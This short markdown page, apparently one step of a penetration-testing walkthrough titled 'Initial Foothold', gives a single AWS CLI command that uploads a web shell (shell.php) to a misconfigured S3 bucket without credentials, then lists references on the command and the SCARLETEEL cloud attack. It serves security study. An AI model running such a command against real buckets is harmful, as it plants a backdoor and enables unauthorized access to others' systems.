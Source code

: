 # 03 - Initial Foothold

`$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>`

---
## References

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

https://sysdig.com/blog/scarleteel-2-0/